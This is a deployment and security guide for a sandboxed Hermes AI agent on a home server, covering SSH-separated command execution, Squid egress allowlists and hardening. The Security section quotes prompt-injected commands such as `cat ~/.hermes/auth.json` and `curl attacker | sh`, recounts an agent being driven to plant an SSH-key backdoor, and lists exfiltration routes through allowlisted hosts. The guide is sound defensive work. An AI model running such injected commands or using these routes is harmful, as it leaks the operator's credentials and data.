

# hermes-agent

[Hermes Agent](https://github.com/NousResearch/hermes-agent) (Nous Research)
running with its **web dashboard as the only way in**. The container runs the
gateway runtime (`hermes gateway run`) with the dashboard supervised beside
it (`HERMES_DASHBOARD=1`). The dashboard's Chat tab needs that runtime: its
terminal UI starts a gateway through the container's s6 supervisor and fails
with `gateway inaccessible: service_manager_unavailable` without it. No
messaging platform (Telegram, Discord, ...) is configured, so none connects,
and the gateway's local API server listens on loopback only. The Chat tab
embeds the full Hermes terminal UI in the browser. DockTail publishes the
dashboard as the private Tailscale Service `hermes` on HTTPS port `443`. No
host port is published.

Hermes signs in with a **ChatGPT/Codex subscription** (the `openai-codex`
provider). It has no local model and no API key to manage.

## Architecture



| Service | Role | Holds | Network |
|---|---|---|---|
| `hermes` | Dashboard, model calls, memory, skills | ChatGPT login (`data/auth.json`), SSH client key | `llm`, `link` (both internal) |
| `hermes-sandbox` | Runs every shell command, file read/write and `execute_code` call Hermes makes | Nothing secret. Its home is `workspace/`; it writes deliverables to `outputs/`. | `dev`, `link` (both internal) |
| `egress-llm` | Squid: HTTPS to OpenAI only | — | `llm` + `internet` |
| `egress-dev` | Squid: HTTPS to registries and GitHub only | — | `dev` + `internet` |

`llm`, `dev`, and `link` are `internal: true` Docker networks: no default
route out. Only the two proxies also join the ordinary `internet` bridge, so
the proxies are the *only* way any of these containers reaches anything
outside the Pi. Enforcement is by network topology, not by environment
variables: a tool that ignores `HTTPS_PROXY` simply has no route.

Hermes's terminal backend is `ssh`. The sandbox is the "remote machine".
Hermes's own docs recommend this layout for separating the agent's brain from
its command execution. The settings live in two places on purpose:

- `terminal.backend` and `terminal.ssh_*` in `data/config.yaml`. The
  dashboard's file panel and tool-status checks read the SSH host only from
  here (or from a `.env` file in the data directory), not from the
  container's environment. Without them, the file panel fails with `SSH host
  and user are required`, and an agent that tries to produce a file for the
  dashboard reports a missing SSH configuration.
- `TERMINAL_ENV` and `TERMINAL_SSH_*` in `compose.yaml`. Hermes defaults to
  the `local` backend, which is the `hermes` container itself. Any Hermes
  process that does not load `config.yaml` would run commands there, next to
  the ChatGPT login. The environment default makes that process use the
  sandbox instead.

## Signing in with Codex

Done once, interactively, after the first reconcile. Run it as the `hermes`
user (the default `exec` user is root and would leave root-owned files in the
data volume):

```sh
docker compose --project-name hermes-agent \
  --env-file /mnt/ssd/homelab/apps/hermes-agent/.env \
  -f /mnt/ssd/homelab/apps/hermes-agent/compose.yaml \
  exec -u hermes hermes hermes auth add openai-codex
```

Open the URL it prints (`https://auth.openai.com/codex/device`) on any
device, enter the code, and approve with your ChatGPT account. Then open the
dashboard's **Chat** tab and pick a model with `/model`.

- The login is stored in `/opt/data/auth.json` (the `data/` directory on the
  SSD) and refreshes itself.
- It is Hermes's own session, separate from any Codex CLI login.
  `auth.adopt_external_logins: false` stops Hermes from borrowing a Codex CLI
  or Claude Code login it finds. Codex rotates single-use refresh tokens, so
  two programs sharing one login break each other.
- If sign-in or refresh breaks, run the same command again. Check state with
  `hermes auth status openai-codex` (same `exec` prefix).
- Only Codex subscription models are reachable. `egress-llm` allows
  `*.openai.com` and `*.chatgpt.com` and nothing else. To add a provider, add
  its hostnames to `egress/llm.conf`.

## Web search

`web_search` runs through OpenAI's own server-side search, using the same
Codex login and the same `*.openai.com`/`*.chatgpt.com` allowlist, so it adds
no hostname, key or route (`web.search_backend: "openai-native"`). Hermes
never connects to an arbitrary website itself: OpenAI does the searching and
the results come back through the model.

- **Search only.** `web_extract` (reading a page by URL) does not work.
  Hermes still lists it and defaults it to Firecrawl, but the proxy denies
  `api.firecrawl.dev`, so calls fail (they show as `TCP_DENIED`). Making it
  work needs an extract provider (Tavily, Firecrawl, Exa, ...), one more key
  and its hostname in `egress/llm.conf`, and it would let a prompt-injected
  page ask a hosted fetcher to load an attacker URL with conversation data in
  it. Add one only when you need it.
- **No free third-party search.** `keyless_fallback` and `keyless_rescue` are
  off, so Hermes does not fall back to Exa, Firecrawl or other free tiers
  (which the proxy would block anyway).
- **Results are model-written**, not raw search-engine output, and count
  against your Codex quota.
- **Search results are untrusted input.** Keep personal data (private notes,
  mail, credentials) out of this agent's memory and context.

## Artifacts: the Files tab

Everything the agent creates is meant to be fetched from the dashboard's
**Files** tab. The agent starts in `/outputs` (`terminal.cwd`), which is
`apps/hermes-agent/outputs/` on the SSD: read-write in the sandbox,
**read-only** in the `hermes` container. `HERMES_DASHBOARD_FILES_ROOT=/outputs`
points the tab at it (upstream's default is `/opt/data`, Hermes's own state,
which the tab then no longer shows). HTML, Markdown, images, source files and
compiled programs all download byte-for-byte, as attachments, so nothing the
agent wrote can run on the dashboard's origin.

- **Instructions to the agent** are in
  [`apps/hermes-agent/AGENTS.md`](../apps/hermes-agent/AGENTS.md), which every
  reconcile installs as `outputs/AGENTS.md`: put deliverables in
  `/outputs/<task>/`, keep virtualenvs and caches in `~`, never `chmod 600`.
- **Containment**: the tab refuses anything outside `/outputs`, `..`
  traversal, and symlinks that resolve outside it (tested against links to
  `auth.json` and `/opt/data`). The refusal is all-or-nothing per folder: one
  symlink that points outside makes the whole folder unlistable (`403 Path
  outside managed files root`). Python virtualenvs do this
  (`python -> /usr/bin/python3`), which is why `AGENTS.md` keeps them in `~`.
  Fix a folder by deleting the link or `python3 -m venv --copies`.
- **Limits**: files must be readable by uid 10000, so a file the agent
  `chmod 600`s cannot be downloaded. Downloads are capped at 100 MiB. The tab
  has no preview (a download is not rendered in the browser), and its
  upload, new folder and delete buttons fail because the mount is read-only;
  ask the agent to delete things.
- **File tools**: Hermes's write and patch tools only touch paths inside
  `HERMES_WRITE_SAFE_ROOT`. The image sets it to `/opt/data`, which refuses
  every sandbox path, so `compose.yaml` sets it to `/outputs:/home/agent`.
- **Raw API**: `/api/fs/list?path=/home/agent/...` and `/api/fs/download?path=`
  read the sandbox's whole home over SSH, using the `terminal.ssh_*` keys in
  `config.yaml`. They have no UI.

## The sandbox

`hermes-sandbox` is a Debian container built on the Pi from
`apps/hermes-agent/sandbox/` (base image pinned by digest). It has Python 3,
pip and venv, Node.js and npm, git, build-essential, ripgrep, jq and curl.

- **Home directory**: `/mnt/ssd/homelab/apps/hermes-agent/workspace` is
  mounted as `/home/agent`. `pip --user` installs, virtualenvs, caches and npm
  state persist across restarts. It is unbounded; check its size now and then.
  Deliverables go in `outputs/` instead (see above).
- **Package installs** work through `egress-dev`. `pip install --user` is
  allowed (`PIP_BREAK_SYSTEM_PACKAGES=1`); virtualenvs work too.
- **File sync**: Hermes's SSH backend copies its skills, its cache
  directories and any credential files a skill declares into `~/.hermes` in
  the sandbox (never `auth.json` or `.env`, which it refuses). It can also
  copy changed files back; that is disabled here
  (`terminal.sync_back_max_bytes: 0`), so whatever the agent writes to
  `~/.hermes` stays in the sandbox instead of landing in Hermes's own skills.
- **Hardening**: non-root (`uid 10001`), read-only root filesystem, `/tmp` on
  tmpfs, all capabilities dropped, `no-new-privileges`, 4 GiB memory, 3 CPUs,
  1024 PIDs. `sshd` runs unprivileged on port 2222 with key-only login, no
  forwarding, and its host key and the authorized key mounted read-only from
  the root-only `ssh/` directory (nothing the agent can write controls them).
- **Adding tools**: edit `sandbox/Dockerfile`, then
  `sudo ./setup.sh reconcile hermes-agent` (it rebuilds the image with
  `docker build` and recreates the container). To pick up Debian security
  updates, rebuild without the cache from time to time:
  ```sh
  sudo docker build --no-cache -t hermes-sandbox:local \
    /mnt/ssd/homelab/apps/hermes-agent/sandbox
  sudo ./setup.sh reconcile hermes-agent
  ```
- **Reset**: stop the stack and clear `workspace/` (and `outputs/`, keeping
  `AGENTS.md`, which reconcile reinstalls) to wipe the agent's files.
  The SSH host key lives in `ssh/`, not in `workspace/`, so Hermes keeps
  connecting.

## Egress allowlists

The policy is two short Squid files, `egress/llm.conf` and `egress/dev.conf`.
Edit and reconcile to change them. Every request is logged to the proxy
container's output, so denied requests (`TCP_DENIED`) appear in Dozzle; that
is the way to find a hostname a tool needs.

- Only `CONNECT` to port 443 and only to listed hostnames. Plain HTTP is
  denied, and so is any destination given as an IPv4 address: Squid would
  match `dstdomain` against the IP's reverse-DNS name, which the IP's owner
  controls. The rule does not match IPv6 literals; the Docker networks here
  have no IPv6, so they have nowhere to go.
- Destinations that resolve to private, loopback, link-local or tailnet
  addresses (`10/8`, `172.16/12`, `192.168/16`, `100.64/10`, `127/8`,
  `169.254/16`) are denied even for allowlisted names, which blocks DNS
  rebinding into your LAN or tailnet.
- HTTPS is tunnelled, so the proxy cannot filter by HTTP method or path. An
  allowlisted host is reachable for any request to it, including writes
  authenticated with a token an attacker supplies in a prompt (a GitHub gist
  or push, `npm publish`, a PyPI upload). `proxy.golang.org` also fetches
  arbitrary hosts on the sandbox's behalf, so it works as a relay. Treat the
  list as a trust decision, and remove `proxy.golang.org` and
  `sum.golang.org` from `egress/dev.conf` if you do not write Go.

## Requirements

- A dashboard username and password in
  `/mnt/ssd/homelab/apps/hermes-agent/.env`, prompted for on first
  reconcile.
- A ChatGPT plan that includes Codex (see Signing in above).

`sudo ./setup.sh reconcile hermes-agent` also creates, once, the SSH keys in
`apps/hermes-agent/ssh/` (a root-only directory): Hermes's client key, its
public half, the sandbox's host key, and a `known_hosts` that pins that host
key for Hermes.

## Configuration

[`apps/hermes-agent/config.yaml`](../apps/hermes-agent/config.yaml) is the
single source of Hermes's settings. Every reconcile installs it over
`data/config.yaml` (written to a temporary file and renamed, so a symlink in
`data/` is replaced, never followed) and recreates the four containers so the
running state always matches the repo. Data and workspace persist.

- **Change a setting:** edit the file, commit, `git pull`, then
  `sudo ./setup.sh reconcile hermes-agent`.
- **Roll back:** `git revert` the commit and reconcile again. Sessions,
  memory and the Codex login live in `data/` and are not touched.
- **Dashboard Config page:** edits last only until the next reconcile. Copy
  anything worth keeping into the repo file.
- **Dashboard Files tab** shows `outputs/` (see Artifacts). The
  `terminal.ssh_*` keys in this file are what the dashboard's other file
  features read; they are not taken from the container environment.
- **Do not** change `terminal.backend`: commands would run inside the
  `hermes` container next to the ChatGPT login. Removing
  `sync_back_max_bytes: 0` lets the sandbox write into Hermes's skills.
  Removing `agent.disabled_toolsets: ["browser"]` re-enables a tool that
  runs model-written Python in the `hermes` container (see Security).

## Security

Running an autonomous, tool-using agent is a materially different risk than
the other apps in this repo: Pi-hole and Dozzle only do what a request tells
them to; hermes-agent can read/write files, run shell commands, and (if it
has network access) reach the web, on its own initiative, including in
response to content it reads rather than only what the operator typed.
Upstream's own security page documents a real incident along these lines: an
internet-reachable, unauthenticated dashboard was used by scanners to drive
an agent into planting an SSH-key backdoor. The controls below are sized for
that threat model, not just "add a password."

**Exposure**
- No messaging integrations are configured. The container's command is
  `gateway run` with `HERMES_DASHBOARD=1`, so the gateway runtime is up, but
  with no bot token and no paired chat account it has no platform to connect
  to, and its OpenAI-compatible API server is bound to `127.0.0.1` inside the
  container (the sandbox cannot reach it). This is a *current-configuration*
  fact, not a structural guarantee: the dashboard's own Channels/MCP/Cron
  pages let an authenticated session configure those later. The dashboard
  credential is therefore the actual control; treat
  `HERMES_DASHBOARD_PASSWORD` with the same care as the Tailscale OAuth
  secret.
- Dashboard auth is mandatory: Hermes refuses to bind to a non-loopback
  address without an auth provider. This deployment uses the bundled
  username/password provider, which is upstream's documented choice for a
  trusted-network/homelab dashboard.
- Reachable only through Tailscale, like every other app here: no host port,
  no Funnel label. Only tailnet members granted `svc:hermes` in the ACL (see
  [prerequisites](prerequisites.md)) can reach the login page.
- No Docker socket is mounted. Hermes cannot see or touch other containers.

**The agent's hands are not where the credentials are.** Shell commands, file
tools and `execute_code` run in `hermes-sandbox` over SSH. A prompt-injected
`env`, `cat ~/.hermes/auth.json`, or `curl attacker | sh` runs in a container
that has no ChatGPT login, no dashboard secret, no SSH private key and no
route to OpenAI. Hermes refuses to sync `auth.json` and `.env`, but it does
copy its skills and cache into the sandbox (and any other credential file a
skill declares, such as session history), and it passes through environment
variables a skill or the config declares. Copying back is disabled
(`sync_back_max_bytes: 0`). The sandbox holds the SSH *public* key and its
own host key.

**Not everything runs in the sandbox.** Shell commands, file tools and
`execute_code` do; MCP servers, plugins, hooks, skill loading and cron
scripts run in the `hermes` container. So does the browser toolset's
`browser_exec`, which runs model-written Python with no approval prompt and
could read `auth.json` and the SSH key. The browser toolset is therefore
disabled in `config.yaml`. Do not configure local (stdio) MCP servers or
cron scripts without treating them as running next to the login.

**Network egress is allowlisted.** Neither container has a route out except
through its proxy; `hermes` can reach OpenAI only, the sandbox can reach
registries and GitHub only. Web search goes through OpenAI; `web_extract` and
the dashboard's skill-hub installs and update checks have nowhere to go.

**Command approval is `manual`.** `approvals.mode: manual` makes a human
confirm terminal commands that Hermes's dangerous-command patterns flag. It
does not cover file writes, MCP calls, skill or memory writes, or creating
cron jobs, and upstream describes it as catching mistakes, not adversarial
output. `approvals.mode: off` and `HERMES_YOLO_MODE` are never set.

**Container hardening.** All four containers drop all capabilities and set
`no-new-privileges`, with memory and PID limits. The sandbox and both proxies
run as non-root with a read-only root filesystem; `hermes` is read-only too
and keeps only the five capabilities its s6 init needs to chown its data
volume and drop to the `hermes` user (`CHOWN`, `DAC_OVERRIDE`, `FOWNER`,
`SETUID`, `SETGID`).

**Blast radius if the sandbox is fully compromised:** it can read and corrupt
anything in `workspace/` and `outputs/` (the `hermes` container only ever
reads the latter) and the files Hermes synced into it, burn CPU and
memory up to its limits, fetch from the allowlisted registries/GitHub, and
open connections to the `hermes` container over `link` (the dashboard login
is the only thing guarding that port, and it locks a client out for a short
while after 10 failed attempts). It cannot read the ChatGPT login, reach the
internet outside the allowlist, reach the LAN or tailnet, or touch other
containers or the host. It cannot write into Hermes's files directly, but it
can lie in the output it returns to the model, and the model's own skill and
memory tools can then persist what it said.

**Blast radius if `hermes` itself is manipulated** (for example through
content it summarises): it can read its own data volume, including
`auth.json`, and reach OpenAI. A stolen ChatGPT refresh token would have to
leave through `*.openai.com`, but anything in the conversation can still be
written to the sandbox by the model and sent out through an allowlisted host
(for example GitHub) with an attacker-supplied token, and `*.openai.com` also
admits `api.openai.com` with any API key. Keep personal data out of this
agent.

Prompt injection itself cannot be eliminated by configuration; the separation
and the allowlists bound what a successful one can do.

**Accepted residual risks:**
- The dashboard's session cookie doesn't get the `Secure` flag, because
  DockTail's TLS-terminating proxy connects from a non-loopback peer and
  `dashboard.trusted_proxies` isn't configured. The only plaintext hop is
  DockTail to the container over a local Docker bridge. To close it, find the
  gateway IP (`docker network inspect hermes-agent_llm`) and add it to
  `dashboard.trusted_proxies` in `config.yaml`.
- The sandbox can reach `hermes:9119` over `link`. Docker cannot restrict by
  port within a network; the dashboard login is the control, so choose a
  strong password (`setup.sh` accepts any non-empty one).
- Secrets (the dashboard password, `auth.json`) sit in plaintext on the SSD,
  `chmod 600` for the files `setup.sh` writes, like every other secret in this
  repo. SSD theft or root compromise exposes all of them.
- Allowlisted hosts accept any HTTPS request, including writes made with an
  attacker-supplied token (see Egress allowlists). Workspace contents are
  exfiltratable that way; do not put code or data in the sandbox that you
  would not accept leaking.
- The two Squid containers sit on an ordinary bridge so they can reach the
  internet. If Squid itself were exploited, that bridge routes to your LAN and
  tailnet. The image is pinned by digest on Canonical's `edge` tag and does
  not update itself; bump it as you do the other pinned images.
- The `hermes-agent` image is pinned by digest but is a fast-moving project
  with a large bundled dependency surface that ships whether or not this
  deployment uses it. The Squid image (`ubuntu/squid`, Canonical) is pinned
  by digest; the sandbox's Debian packages are only as fresh as the last
  build. Only the official `github.com/NousResearch/hermes-agent` repo and
  `nousresearch/*` Docker Hub images were used to write this doc; several
  look-alike documentation mirrors exist under other domains.

## Test

```sh
HERMES_URL=https://hermes.<tailnet>.ts.net
curl --fail "$HERMES_URL/api/status"
```

Open `$HERMES_URL` in a browser, sign in with the username and password from
`/mnt/ssd/homelab/apps/hermes-agent/.env`, sign in with Codex (above), and in
the **Chat** tab ask it to run `id; hostname; ls /opt/data`. Expected: `uid=10001(agent)`, a
container-ID hostname that is not the `hermes` container's, and `ls: cannot
access '/opt/data'`. That confirms commands run in the sandbox.

To confirm the egress policy from the sandbox (`cd` to the `hermes-agent`
Compose project, then):

```sh
docker compose --project-name hermes-agent \
  --env-file /mnt/ssd/homelab/apps/hermes-agent/.env \
  -f /mnt/ssd/homelab/apps/hermes-agent/compose.yaml \
  exec hermes-sandbox bash -lc \
  'curl -sS -o /dev/null -w "%{http_code}\n" https://pypi.org;
   curl -sS -m 8 https://example.com || echo blocked;
   curl -sS -m 8 --noproxy "*" https://pypi.org || echo no route'
```

Expected: `200`, a proxy `403` / `blocked`, and `no route`.

DockTail reaches `hermes` over the internal `llm` network (the
`docktail.service.network` label selects it, since `hermes` also joins
`link`). If the dashboard URL fails after `reconcile`, check DockTail's logs:

```sh
docker compose --project-name docktail \
  --env-file /mnt/ssd/homelab/infra/docktail/.env \
  -f /mnt/ssd/homelab/infra/docktail/compose.yaml logs --tail=100 docktail
```
